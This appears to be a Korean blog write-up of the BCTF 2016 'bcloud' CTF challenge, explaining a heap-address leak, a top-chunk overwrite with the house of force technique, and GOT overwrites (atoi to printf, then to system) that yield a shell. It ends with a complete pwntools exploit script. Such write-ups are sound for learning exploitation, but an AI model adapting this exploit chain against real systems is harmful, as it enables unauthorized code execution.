 ```yaml
---
layout: post
title: BCTF 2016 - bcloud write up
---
```


하우스 오브 포스

이 문제는 house of force기법을 이용한 힙 문제인데, format string bug를 trigger하는 과정이 필요하고 나한테는 다소 복잡하지만 이해하니 재밌는 문제였다.

file

----------

![](https://lh5.googleusercontent.com/FIV_0BSv9zW1O-tQJXfJVPfMbPNO0f_VxKrOrTPTDRE_ekMeJ-Ved3EwoyDkgMQ03cvJ09KfHNZJAHlGckohz6eEYbgP1FtUSbrSAod3xTLr_iVSkr9JH7AcQyNDHa3oz-2JuFby)

ELF 32bit 파일이다.

보호기법

----------

![](https://lh6.googleusercontent.com/HUvQvt63qWol71IM5HmJJLOkS779ya4MQIG4hN91vApEAZhzi_b4_UXB6YfeMauIilSUTBHRpOPvMwiL0S5A7g6dt28rPHTokc_syCRDQf-3sqAWcmFbzTVGo6hl4dUTXcB3Ib--)

canary와 nx가 걸려있다.

분석

----------

main함수를 보면 먼저 while문 전에 함수를 호출한다.

![](https://lh4.googleusercontent.com/RovwjnILZBHQ1rBuHoLZoilao822YmsH3SUbGe3inTmSEXyPYv1_MWh4wVwOvwe0_azMXswOsWsWLuM6NJdyuF3Hdw2SD7S0LgKVC_ONRlot6D86JvoEqrfH3CFUEddNWWmVZogo)

input_name함수를 보면

![](https://lh4.googleusercontent.com/O3K-LqbMvgsvQRbTmcE0VpS7b_5OkXNGnIBtbia-IVc94GGPykr0VyBsptWfMoeXsBi0vEJxWuOf--sDHXgTvoNr2QByqyHA5d04hBfaLQ4D9famyjCZQZka_Kd_sCGNNGkwfWRi)

Input your name: 이라는 문구가 출력되고 input_read 함수가 실행된다.

![](https://lh3.googleusercontent.com/KAENkEt-hSt5RJinfjjwTQ-HuO7afU0nLl0fKqz3UZ8APfmW_KoOhzY5OCD46dFS9CTTS28nXTftRQHqkmEjbsYrW2wNS5IfLKbz_mlRWEpf22A0O_UYu6gK0La8Q0OO4q7XjSa6)

2번째 인자까지 입력 받고, 개행문자가 도중에 있으면 break한다.

다시 input_name 함수로 돌아와서,

![](https://lh4.googleusercontent.com/Ma-_hAmP-qCsxy5aMgqeaftKkS6oIBs85m9qjPPL9PVU2fPmhLMOBk0OcaS8ThT4yyubdwNTQxR7J4KwLX6NDDUTthoTT09mdtWI8Yk4mtBrJeKpbj_WK0YzgSM9ZvAKzkDGZN8K)

v2 를 0x40(64) 만큼 malloc 해주고 입력 받은 name을 chunk에 strcpy를 진행한다.

malloc 공간이 64이고 입력도 64까지 받을 수 있다. sub_8048779 함수를 보자.

![](https://lh5.googleusercontent.com/b3tCjYYA0cj4Y8ozFNflIJ5RALIOoQVuJSl5NiBArCLKi-j09LRhQ_S-DpCNLR48VsWA67_WpxIenVz7NjQuqyhyeGDRWVTfjYcvZKhClG_H0tauubQx-ro4EbMFA4sqZpjG5848)

%s로 v2의 data를 출력해준다. 아까 입력할 때 64를 채워서 입력하면, 뒤에 heap base가 leak 된다. 이유는 널이 없으니 문자열의 끝을 인식 못한다.

이를 이용해서 heap base를 구하고 Top chunk의 주소를 구할 수 있다.

![](https://lh3.googleusercontent.com/fwJX-JZWv1O6E6XlV_BLpAt-w8rrFSTWGajs533D2Nibx7tEa2CEkEEZqZ9SZ2gGfVWVPomMZmI31DzNZVfnj-Qwarc8QHnp_IRYp_q-tpnSosOXV8eF_VJZapLViyvp9j6qFh1D)

sub_804884e 함수이다.

![](https://lh3.googleusercontent.com/Ql0xS7wRu3b86CuI_WK2z_DnWWqgaFKxE-A8P6SxKoRKHVJ1a732pK3n6-SFupH4ZHqh9SKRoJNvpLaxUwaB-Ic3hZFiViS29c9zKHg7dmysR8lTiU_UyfVZVRlhrESE3x0JgmGs)

Org를 &s에 입력 받고 Host에 &v3을 입력 받는다.

v4와 v2를 0x40(64)만큼 차례대로 할당 한다.

두 번째 malloc chunk의 data에는 Host가 strcpy 된다.

마지막 malloc chunk의 data에는 Org가 strcpy 된다.

마지막 malloc chunk에서 data를 0x40만큼 최대로 채워주고 +4만큼 더 채우고 더 입력받으면 Top chunk를 control할 수 있게 된다.

근데 입력을 64만큼 밖에 안 받는다. 일단 data는 다 채울 수 있게 되는데 8바이트를 더 입력받을 수 있어야 Top chunk를 control 할 수 있다.

&s의 위치를 보면 bp-0x9c 에 위치해 있다. 64만큼 입력을 받으면 v2 포인터가 있다. 어랏?

64(data) 만큼을 채우고 다음 4바이트는 어쨌든 값이 들어가 있을테니깐 overwrite가 가능하고 이제 그 다음 4바이트가 Top chunk 인데, v3, 즉, Host로 처음 입력 받는 4바이트로 Top chunk를 조절 할 수 있다.

![](https://lh6.googleusercontent.com/GiLU8JO00WsypGJaJAP3oPeJ6FfzaN-bPLSdOecDX89DTuiChNVGFZcP4t0qWCcmOweXRwdgqyl-p47aO7K95nq1yYTpeWwd3WOJRny3puuH7lWb-43tukQ1IKxoaWu1yIXq9P_D)

이제 while 문을 반복한다.

1부터 보자.

![](https://lh5.googleusercontent.com/XGP3A3BxRBYYSXJv9pRZzHPTHUbKJPWHjBsM_AOvQCZJB1vKHP3OmD__Sa2wcxd-QASr2dhNntReWcjsOWIPEdXHtts6RwEwqQ_QrVjhRrk-RjRY2jBfsyScDBx5EYsQLUhOBcNv)

v2에 input을 받는 것 같다 sub_8048709를 보겠다.

![](https://lh3.googleusercontent.com/X5hmFDM3fTFF8weZkMStniH1YFzb1-qOX1PDdCI8JWaD3Lf_Tjlxl16W8Oe7SBxYC16dUQ1OgGF3TwRWq89O7TMg4ZFKa5BH3IsBlrQhH4Kpjf9-nak7LlyXb-x4EZko0BWu4jlS)

여기서 좀 꿀잼인데 input_read로 nptr에 입력을 받고

이를 atoi로 숫자로 변형해준다.

atoi(&nptr)

atou의 got 를 printf로 got overwrite를 통해 format string bug를 trigger 할 수 있다.

이를 이용해 libc를 leak 할 수 있게 된다.

다시 돌아와서,

![](https://lh5.googleusercontent.com/XGP3A3BxRBYYSXJv9pRZzHPTHUbKJPWHjBsM_AOvQCZJB1vKHP3OmD__Sa2wcxd-QASr2dhNntReWcjsOWIPEdXHtts6RwEwqQ_QrVjhRrk-RjRY2jBfsyScDBx5EYsQLUhOBcNv)

아까 heap overflow로 top chunk를 0xffffffff로 control할 수 있게 되었다.

여기서 v2에 atoi로 숫자를 입력 받고, v2+4만큼 malloc을 할당해준다.

이 쯤에서 house of force의 충족 요건을 확인 해보겠다.

1. top chunk를 0xffffffff로 조작이 가능해 malloc을 원하는 만큼 할당할 수 있어야 한다.

2. malloc size를 원하는 만큼 control해 원하는 곳에 할당시킬 수 있어야 한다.

3. 원하는 곳에 malloc 된 곳에 user data로 컨트롤이 가능해야한다. (예를 들어 got overwrite)

충족하니 house of force 기법을 이용해 공격하면 된다.

atoi got를 printf plt로 overwrite해야한다.

(atoi got) - (top chunk) - header(8) 을 한 값을 넣어야 하지만 이 문제에서는 -4만큼 더 빼서

(atoi got) - (top chunk) - header(8) - 4 한 size를 할당해야한다.

그리고 user data를 입력할 때 바로 printf plt로 덮는게 아니라 “AAAA”+p32(printf_plt) 이렇게 덮어야 한다.

이렇게 하면 atoi가 printf로 바껴 fsb가 가능해진다.

offset구하고 printf_got넣고 libc leak했다.

system offset까지 구해주고,

다시 house of force를 통해 atoi->printf로 바뀐 atoi_got를 system_got로 바꿔야 한다.

다행하게도 3번메뉴에서 user data를 수정 할 수 있다.

근데 3을 입력하려는데 입력이 안된다. 이는

atoi가 printf로 바뀌었기 때문.

3이면 문자를 3개 이어 붙혀서 send하면 된다.

즉, atoi로 3이면 pritnf “AAA”와 같다.

그렇게 해서 다시 AAAA+p32(system)으로 덮어주고 nptr을 /bin/sh로 바꾸어주면 쉘을 얻을 수 있다.

libc를 어떻게 leak할 수 있는지 leak vector를 찾는게 좀 중요한 문제였고 이 문제를 통해 힙의 대한 이해와 hof 기법에 대한 이해도가 높아진 것 같아서 배운게 많은 좋은 문제였던 것 같다.

> exploit.py

----------
```python
from pwn import  *

s = process("./bcloud")
e = ELF("./bcloud")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")
#context.log_level = 'debug'

s.recv()
s.send("A"*64)
s.recvuntil("A"*64)
atoi_got = e.got['atoi']
printf_plt = e.plt['printf']
printf_got = e.got['printf']
leak_heap=u32(s.recv()[:4])
heap_base = leak_heap -  0x8
top_chunk = heap_base +  224  # (header(8) + data(64))*3
log.success("leak_heap:"  + hex(heap_base))
log.success("top_chunk:"  + hex(top_chunk))
s.send("B"*64)
s.recvuntil("Host:\n")
s.sendline("\xff\xff\xff\xff")
s.recvuntil(">>\n")
size = atoi_got - top_chunk -  8  -  4

s.sendline("1")
s.recvuntil(":\n")
s.sendline(str(size))
s.recvuntil(">>\n")
s.sendline("1")
s.recvline(":\n")
s.sendline("8")
s.recvline(":\n")
s.sendline("AAAA"+p32(printf_plt))
s.recvuntil(">>\n")
s.sendline("1")
s.recvline(":\n")
payload = p32(printf_got)+"k"+"%6$s"
s.sendline(payload)
s.recvuntil("k")
leak_printf=u32(s.recv()[:4])
log.success(hex(leak_printf))
base = leak_printf - libc.symbols['printf']
log.success(hex(base))
system = base + libc.symbols['system']
log.success(hex(system))
s.sendline("AAA")
s.recv()
s.sendline("333")
s.recv()
s.sendline("1")
s.recv()
s.sendline("AAAA"+p32(system))
s.sendline("/bin/bash")
s.recv()
s.recv()
s.interactive()
```
  

  

![](https://lh3.googleusercontent.com/Jy_cJuQdEI0ZiZHOiqFuAg7h8p2dOft3O-XMYGwZqN4kYjIBvO4lU7sSDXZC3zcW4QMIFJhpB8DZfyFqNn1m4LLZ6SX__P7YBjPFUiKdHI6CLYy03y6HWMGiN2XjRHqYbEtK53Qw)

